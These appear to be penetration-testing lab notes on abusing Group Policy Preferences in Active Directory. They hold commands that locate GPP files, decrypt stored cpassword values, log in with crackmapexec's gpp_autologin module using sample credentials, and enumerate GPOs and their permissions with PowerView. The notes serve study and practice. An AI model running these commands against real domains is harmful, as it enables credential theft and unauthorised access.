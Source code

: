 

#### Group Policy Preferences (GPP) Passwords

When a new GPP is created, an groups.xml file is created in the SYSVOL share

File Contents
- Map drives (drives.xml)
- Create local users
- Create printer config files (printers.xml)
- Creating and updating services (services.xml)
- Creating scheduled tasks (scheduledtasks.xml)
- Changing local admin passwords.


[Locate GPP Password Tool](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

Locate gpp with crackmap
```shell-session
crackmapexec smb -L | grep gpp
```


Decrypt cipher password stores in groups.xml
```shell-session
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

Auto login with crackmapexec
```shell-session
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologi
```


Enumerating group policy via powerview
```powershell-session
Get-DomainGPO |select displayname
```

Enumerating group policy via cmdlet
```powershell-session
Get-GPO -All | Select DisplayName
```

Enum group policy rights
```powershell-session
PS C:\htb> $sid=Convert-NameToSid "Domain Users"
PS C:\htb> Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}
```
